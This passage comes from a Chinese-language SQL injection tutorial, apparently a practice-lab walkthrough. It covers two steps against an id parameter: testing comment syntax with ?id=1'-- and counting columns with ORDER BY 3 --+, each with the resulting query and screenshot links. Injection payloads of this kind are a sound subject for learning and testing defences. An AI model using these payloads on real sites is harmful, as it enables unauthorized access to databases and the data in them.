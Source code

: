 ------

### ② 判断注释符

试试：

```
?id=1'--空格
SELECT * FROM users WHERE id ='1'-- ' LIMIT 0,1 ;
```

![image-20250902150725636](images/image-20250902150725636.png)

报错消失，说明注释符正确。

![image-20250903101014552](images/image-20250903101014552.png)

------

### ③ 判断字段数（ORDER BY）

```
?id=1' ORDER BY 3 --+
SELECT * FROM users WHERE id ='1' ORDER BY 3 -- ' LIMIT 0,1 ;
```

![image-20250902151657940](images/image-20250902151657940.png)
